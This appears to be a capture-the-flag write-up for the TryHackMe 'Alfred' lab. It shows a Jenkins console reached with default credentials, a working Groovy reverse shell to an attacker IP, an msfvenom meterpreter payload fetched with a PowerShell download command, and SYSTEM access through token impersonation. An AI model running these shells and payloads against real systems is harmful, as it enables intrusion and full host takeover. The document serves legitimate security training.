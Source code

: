 ```yaml
---
title: Alfred
date: 2024-02-24 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Alfred is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with running one exploit. The foothold is accomplished after some enumeration of the web page after gaining access to the Jenkins portal, and the privilege escalation is done with exploiting impersonate privilege token. 

## Nmap Scan
sudo nmap -Pn -sS `<target ip>` -vvv
* 80/tcp   open  http   syn-ack ttl 125 
* 3389/tcp open  ms-wbt-server syn-ack ttl 125
* 8080/tcp open  http-proxy    syn-ack ttl 125

## Basic Enumeration
Checking the website, we see this has a backend for Jetty: `Jetty(9.4.z-SNAPSHOT)`

Nikto scan:
> Server: Microsoft-IIS/7.5

* Jenkins Login Server, on port 8080. 
    * We try good old admin:admin login.
    * It works, default/bad credentials gets us in.

Web page, we see an email, doesn't end up being useful, but still something to note.

* `alfred@wayneenterprises.com`

Wfuzz for web page directories.

> Port 80:
>> Nothing, dead end.

> Port 8080:
>> login, assets, logout, error, git, subversion, oops, cli

## Foothold
Looking through the Jekins console, we see a lot of different potential avenues to check for a foothold.

* We are able to find a script console, that allows you to pass groovy script to execute. 
* We can use a groovy reverse shell to gain a foothold.

```java
String host="10.13.50.64";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We are able to get a shell back, and are user `alfred\bruce`.

* We have the `user.txt` flag.

## Local Enumeration
We have an unusual shell on the host, so switching to a more stable shell is usually a good choice. Meterpreter is pretty stable, so we drop a meterpreter reverse shell to make it easier to keep a connection. 

* `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.50.64 LPORT=5555 -f exe -o rev.exe`
* Download payload onto the machine: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.50.64:8000/rev.exe','rev.exe')"`
* We also used msfconsole, running `exploit/multi/handler`, set your conditions.
* We have a new shell. 

Getting what privileges we have available (`get privs`) gives us a big list of options:
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
All of these are enabled. The token we care about that is easy to abuse is the `SeImpersonatePrivilege` token.

## Impersonate Token
* Now we load incognito in our meterpreter shell, and we list out available tokens (`list_tokens -u/-g`).
* None of the user tokens are available for this impersonation abuse. 
* Listing out the group tokens shows a large number of tokens for use. 

```
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
```

## Privilege Escalation
The group `BUILTIN\Administrators` is the group we are definitely interested in impersonating. We use `impersonate_token` in our shell to escalate privileges. 

* When we use getuid, we see that we are now `NT AUTHORITY\SYSTEM`. However, we are not done escalating yet. We do not have permissions to do things like making an interactive shell locally (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).
* Since we cannot run `shell` to be able to get our root.txt, we need to migrate to another process that will allow us to have the right permissions. A process like `services.exe` is recommended to migrate to, list out proceses with `ps`.
    * `migrate <pid>`

After doing the migration, we can make a shell, and when we run `whoami`, we see that we are `NT AUTHORITY\SYSTEM`, and can read `root.txt`.

* It is in a different location, `C:\Windows\System32\config`.